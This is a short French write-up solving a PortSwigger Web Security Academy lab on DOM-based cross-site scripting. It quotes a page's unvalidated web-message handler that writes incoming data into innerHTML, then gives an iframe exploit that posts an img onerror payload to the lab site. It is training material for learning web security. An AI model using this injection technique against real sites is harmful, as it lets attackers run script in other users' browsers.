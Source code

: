 # Lab

https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages

## Solution

Dans les sources de la home page du site on voit cette fonction :

```html
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

En créant un exploit qui va envoyer un message à la page, on peut injecter du code dans la page.

```html
<iframe src="https://0aad00a50a409423f81ddc0eb00c9006f.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=x onerror=print()>', '*')">
</iframe>
```